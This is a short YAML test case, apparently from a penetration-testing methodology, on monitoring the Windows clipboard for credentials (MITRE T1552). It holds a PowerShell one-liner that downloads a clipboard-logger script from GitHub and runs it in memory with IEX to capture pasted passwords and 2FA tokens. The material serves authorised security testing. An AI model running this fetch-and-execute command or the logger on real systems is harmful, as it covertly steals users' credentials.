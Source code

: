 ```yaml
---
testcase: Pillaging - Monitor Clipboard for Credentials
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - Load a PowerShell script for clipboard monitoring (e.g., Invoke-Clipboard).
  - Start the clipboard logger:
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')
    Invoke-ClipboardLogger
    ```
  - Wait and observe clipboard activity for pasted credentials, 2FA tokens, or other sensitive data.
---
```

